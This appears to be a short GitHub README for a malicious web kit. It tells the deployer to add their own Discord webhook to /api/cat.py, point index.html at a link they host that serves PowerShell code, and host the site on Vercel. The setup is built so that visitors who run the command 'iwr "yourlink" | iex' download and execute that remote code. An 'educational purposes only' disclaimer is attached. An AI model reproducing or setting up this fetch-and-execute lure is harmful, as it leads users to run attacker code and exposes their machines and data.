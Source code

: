 # Replace the webhook in /api/cat.py with your discord webhook 



# in index.html replace anything that says "http://extratools.mooo.com/" with your own link 
(the link hosted must have powershell code in it for when they run iwr "yourlink" | iex in powershell it executes something, not making a tutorial as this is for educational purposes only)


# host using vercel


anyways i think this is chatgpt tbh
